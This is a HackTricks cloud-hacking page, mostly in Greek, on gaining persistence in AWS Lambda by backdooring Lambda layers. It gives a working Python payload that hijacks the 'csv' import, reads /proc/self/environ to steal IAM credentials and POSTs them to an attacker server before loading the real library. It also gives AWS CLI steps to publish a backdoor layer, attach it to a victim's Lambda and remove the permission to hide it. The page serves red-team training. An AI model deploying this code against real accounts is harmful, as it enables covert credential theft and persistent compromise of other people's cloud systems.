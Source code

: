 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Ένα Lambda layer είναι ένα αρχείο .zip που **μπορεί να περιέχει επιπλέον κώδικα** ή άλλο περιεχόμενο. Ένα layer μπορεί να περιέχει βιβλιοθήκες, μια [προσαρμοσμένη εκτέλεση](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), δεδομένα ή αρχεία ρυθμίσεων.

Είναι δυνατόν να συμπεριλάβετε έως **πέντε layers ανά λειτουργία**. Όταν συμπεριλαμβάνετε ένα layer σε μια λειτουργία, το **περιεχόμενο εξάγεται στον φάκελο `/opt`** στο περιβάλλον εκτέλεσης.

Κατά **προεπιλογή**, τα **layers** που δημιουργείτε είναι **ιδιωτικά** για τον λογαριασμό σας AWS. Μπορείτε να επιλέξετε να **μοιραστείτε** ένα layer με άλλους λογαριασμούς ή να **κάνετε** το layer **δημόσιο**. Εάν οι λειτουργίες σας καταναλώνουν ένα layer που δημοσίευσε διαφορετικός λογαριασμός, οι λειτουργίες σας μπορούν να **συνεχίσουν να χρησιμοποιούν την έκδοση του layer μετά την διαγραφή του, ή μετά την ανάκληση της άδειάς σας για πρόσβαση στο layer**. Ωστόσο, δεν μπορείτε να δημιουργήσετε μια νέα λειτουργία ή να ενημερώσετε λειτουργίες χρησιμοποιώντας μια διαγραμμένη έκδοση layer.

Οι λειτουργίες που αναπτύσσονται ως εικόνα κοντέινερ δεν χρησιμοποιούν layers. Αντίθετα, συσκευάζετε την προτιμώμενη εκτέλεση, τις βιβλιοθήκες και άλλες εξαρτήσεις στην εικόνα κοντέινερ όταν δημιουργείτε την εικόνα.

### Python load path

Η διαδρομή φόρτωσης που θα χρησιμοποιήσει η Python στο lambda είναι η εξής:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Έλεγχος του πώς οι **δεύτερες** και τρίτες **θέσεις** καταλαμβάνονται από καταλόγους όπου οι **lambda layers** αποσυμπιέζουν τα αρχεία τους: **`/opt/python/lib/python3.9/site-packages`** και **`/opt/python`**

{% hint style="danger" %}
Εάν ένας επιτιθέμενος καταφέρει να **backdoor** μια χρησιμοποιούμενη **lambda layer** ή **προσθέσει μία** που θα **εκτελεί αυθαίρετο κώδικα όταν φορτώνεται μια κοινή βιβλιοθήκη**, θα είναι σε θέση να εκτελεί κακόβουλο κώδικα με κάθε κλήση lambda.
{% endhint %}

Επομένως, οι απαιτήσεις είναι:

* **Έλεγχος βιβλιοθηκών** που είναι **φορτωμένες** από τον κώδικα των θυμάτων
* Δημιουργία μιας **proxy βιβλιοθήκης με lambda layers** που θα **εκτελεί προσαρμοσμένο κώδικα** και θα **φορτώνει την αρχική** βιβλιοθήκη.

### Προφορτωμένες βιβλιοθήκες

{% hint style="warning" %}
Όταν εκμεταλλεύεστε αυτή την τεχνική, βρήκα μια δυσκολία: Ορισμένες βιβλιοθήκες είναι **ήδη φορτωμένες** στο runtime της python όταν εκτελείται ο κώδικάς σας. Περίμενα να βρω πράγματα όπως `os` ή `sys`, αλλά **ακόμα και η βιβλιοθήκη `json` ήταν φορτωμένη**.\
Για να εκμεταλλευτείτε αυτή την τεχνική επιμονής, ο κώδικας πρέπει να **φορτώσει μια νέα βιβλιοθήκη που δεν είναι φορτωμένη** όταν εκτελείται ο κώδικας.
{% endhint %}

Με έναν κώδικα python όπως αυτόν είναι δυνατόν να αποκτήσετε τη **λίστα των βιβλιοθηκών που είναι προφορτωμένες** μέσα στο runtime της python σε lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Και αυτή είναι η **λίστα** (ελέγξτε ότι οι βιβλιοθήκες όπως το `os` ή το `json` είναι ήδη εκεί)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Και αυτή είναι η λίστα με τις **βιβλιοθήκες** που **περιλαμβάνει η lambda εγκατεστημένες από προεπιλογή**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring Lambda Layer

Σε αυτό το παράδειγμα ας υποθέσουμε ότι ο στοχευμένος κώδικας εισάγει **`csv`**. Θα **backdoor-άρουμε την εισαγωγή της βιβλιοθήκης `csv`**.

Για να το κάνουμε αυτό, θα **δημιουργήσουμε τον φάκελο csv** με το αρχείο **`__init__.py`** μέσα σε μια διαδρομή που φορτώνεται από τη lambda: **`/opt/python/lib/python3.9/site-packages`**\
Έτσι, όταν η lambda εκτελείται και προσπαθεί να φορτώσει **csv**, το **αρχείο `__init__.py` μας θα φορτωθεί και θα εκτελεστεί**.\
Αυτό το αρχείο πρέπει να:

* Εκτελεί το payload μας
* Φορτώνει την αρχική βιβλιοθήκη csv

Μπορούμε να κάνουμε και τα δύο με:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

The integrated payload will **send the IAM creds to a server THE FIRST TIME it's invoked or AFTER a reset of the lambda container** (change of code or cold lambda), but **other techniques** such as the following could also be integrated:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### External Layers

Note that it's possible to use **lambda layers from external accounts**. Moreover, a lambda can use a layer from an external account even if it doesn't have permissions.\
Also note that the **max number of layers a lambda can have is 5**.

Therefore, in order to improve the versatility of this technique an attacker could:

* Backdoor an existing layer of the user (nothing is external)
* **Δημιουργήσει** μια **στρώση** στον **λογαριασμό του**, δώσει στον **λογαριασμό του θύματος πρόσβαση** για να χρησιμοποιήσει τη στρώση, **ρυθμίσει** τη **στρώση** στη Lambda του θύματος και **αφαιρέσει την άδεια**.
* Η **Lambda** θα μπορεί ακόμα να **χρησιμοποιεί τη στρώση** και το **θύμα δεν θα** έχει εύκολο τρόπο να **κατεβάσει τον κώδικα των στρώσεων** (εκτός από το να αποκτήσει ένα rev shell μέσα στη lambda)
* Το θύμα **δεν θα δει εξωτερικές στρώσεις** που χρησιμοποιούνται με **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
